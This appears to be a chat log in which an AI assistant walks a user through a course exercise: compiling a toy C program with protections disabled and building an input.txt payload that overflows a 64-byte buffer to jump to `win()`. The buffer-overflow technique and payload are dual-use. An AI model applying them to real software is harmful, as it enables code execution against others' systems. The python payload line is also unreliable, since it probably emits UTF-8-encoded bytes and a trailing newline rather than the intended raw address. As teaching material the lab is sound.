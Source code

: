 - Overwrite the return address on the stack
    
- Have that address point exactly to `win()`
    
- Bypass all the mentioned protections
    

## How to Make It Work

1. Disable protections when compiling:
    
    bash
    
    gcc -fno-stack-protector -z execstack -no-pie stack_smash.c -o stack_smash
    
2. Create a proper exploit payload in `input.txt` that:
    
    - Fills the 64-byte buffer
        
    - Overwrites any saved base pointer
        
    - Overwrites the return address with `win()`'s address
        

You can find the address of `win()` using:

bash

objdump -d stack_smash | grep win

Without these steps, the program will likely just crash with a segmentation fault rather than successfully jumping to `win()`.

dew@wangleicheng:~/OSTEP-win/OSTEP/02_Introduction_to_Operating_Systems/04_Example_stack_smash_attack$ objdump -d stack_smash | grep "win" 00000000004011d6 <win>: give me the input.txt

Based on your `objdump` output showing that the `win()` function is at address `0x4011d6`, I'll help you create an `input.txt` file that should trigger the stack smash and execute the `win()` function.

### Exploit Construction

1. **Buffer size**: 64 bytes (from `char buffer[64]`)
    
2. **Saved base pointer**: Typically 8 bytes on x86-64
    
3. **Return address**: 8 bytes that we'll overwrite with `win()`'s address
    

### Creating input.txt

Here's how to create the exploit file:

bash

python3 -c 'print("A"*72 + "\xd6\x11\x40\x00\x00\x00\x00\x00")' > input.txt

Or if you prefer to do it manually, the file should contain:

- 72 bytes of any data (to fill buffer + saved base pointer)
    
- The 8-byte address of `win()` in little-endian format: `\xd6\x11\x40\x00\x00\x00\x00\x00`
    